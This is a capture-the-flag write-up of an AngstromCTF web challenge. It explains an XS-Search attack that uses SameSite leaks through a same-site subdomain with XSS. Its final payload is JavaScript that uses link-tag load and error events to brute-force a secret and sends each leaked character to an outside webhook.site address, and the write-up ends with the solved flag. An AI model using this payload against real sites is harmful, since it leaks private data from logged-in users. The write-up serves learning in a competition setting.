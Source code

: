 +++
title = 'WaterMark as a Service AngstromCTF'
date = 2024-05-26T21:01:42+05:30
draft = false
tags = ["writeups"] 
+++

**tl;dr**

+ XS-search 200 / 404 .
+ Leaking using HTML injection in a same-site challenge.
+ Link tags and Error events .

<!--more-->
## 🔎 Initial analysis 

We are given the application source code and a challenge link. Also, there is a ``waaas.js`` for the admin bot. Looking at the application, the main functionality was the search endpoint.

Taking a look at the code for /search endpoint in the ``index.js`` file.

```js 
app.get('/search', (req, res) => {
	if (req.cookies['admin_cookie'] !== secretvalue) {
		res.status(403).send("Unauthorized");
		return;
	}
	try {
		let query = req.query.q;
		for (let flag of flags) {
			if (flag.indexOf(query) !== -1) {
				res.status(200).send("Found");
				return;
			}
		}
		res.status(404).send("Not Found");
	} catch (e) {
		console.log(e);
		res.sendStatus(500);
	}
})
```
It was basically checking if our input query was a substring of the flag. But we cannot send requests to /search due to the check in the start, which checks whether or not the request is from the admin user. So our requests would get 403 Unauthorized as the response.
## 🥷 Attack plan

Since we cant directly access the /search enpoint we have to somehow make the admin send those requests. One approach is to get XSS anywhere in the site so we can send fetch requests bruteforce the flag. But unfortunately there is no XSS in this site.

The Next approach would be an **XS-Search** attack to leak the flag . As the bot is visiting any url we give it. In the /search enpoint if the query is a valid substring of the flag it was returning **200 Found** and if its not a valid substring it was returning **404 Not Found**.

We can use [Error Events](https://https://xsleaks.dev/docs/attacks/error-events/) to differntiate between these 2 status codes cross site .

But there is another issue . . . . . **Same Site Cookies!!** . Looking the admin bots source code we can see that the admin cookie is **same-site Lax** . 

```js 
const cookie = {
                domain: domain,
                name: "admin_cookie",
                value: key,
                httpOnly: true,
                secure: true,
                sameSite: 'Lax'
    };
```
So the cookies won't be sent on the  requests which are sent from our hosted exploit as it wont be same-site 😓.

## SameSite Leaks ftw  🌟

If we have XSS or HTML injection in any domain which is same-site to the challenge domain we can use that in our favour for [Same Site Leaks](https://https://infosec.zeyu2001.com/2023/from-xs-leaks-to-ss-leaks).

The challenge was hosted on ``https://wwwwwwwwaas.web.actf.co/`` and all other challenges was were subdomains of ``web.actf.co`` and fortunately we had XSS on ``markdown.web.actf.co`` which is **same-site**.

So now we can host our exploit to leak the flag on ``markdown.web.actf.co`` .

## 🚀 Final Payloads

```js
const charset = "abcdef1234567890{}ghijklmnopqrstuvwxyz_"
let found = "actf"
const leak_url = "https://webhook.site/4d3c543c-1211-4c4c-9fea-c7fc3336e2a5"   

const next = (i) => {
      char = charset[i]
      link = document.createElement("link")
      link.rel = "stylesheet"
      document.head.appendChild(link)            
      link.onload = () => {
           found += charset[i]
           navigator.sendBeacon(leak_url,JSON.stringify({type: "success", found:found,char:charset[i] }))
           next(0)
       }

       link.onerror = () => {
           next(i+1)
       }
       link.href = "https://wwwwwwwwaas.web.actf.co/search?q="+found+charset[i]
}
next(0)
```
## 🚩 Flag 

``actf{the_w_watermarks_the_whereabouts}``
